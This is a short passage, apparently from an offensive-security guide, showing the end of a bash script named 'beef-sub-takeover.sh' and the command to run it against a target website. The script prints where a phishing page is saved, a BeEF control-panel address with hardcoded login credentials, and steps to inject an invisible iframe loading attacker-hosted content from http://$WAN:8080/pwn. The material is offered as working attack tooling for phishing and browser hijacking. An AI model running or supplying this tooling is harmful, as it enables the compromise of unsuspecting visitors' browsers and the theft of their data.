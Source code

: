 ```bash
clear
printf "\n\n"
printf "${YELLOW}Save Phishing Page: /tmp/index.html\n"
printf "\n"
printf "${CYAN}BeEF Panel: https://${NGHOST}/ui/panel${RESET}\n"
printf "${CYAN}BeEF USER: unk9vvn${RESET}\n"
printf "${CYAN}BeEF PASS: 00980098${RESET}\n"
printf "\n"
printf "${GREEN}BeEF Panel > Commands > Misc > Create Invisible Iframe > URL: http://$WAN:8080/pwn > Execute${RESET}\n"
```

{% hint style="info" %}
Script Run
{% endhint %}

```bash
sudo chmod +x beef-sub-takeover.sh;sudo ./beef-sub-takeover.sh $WEBSITE
```
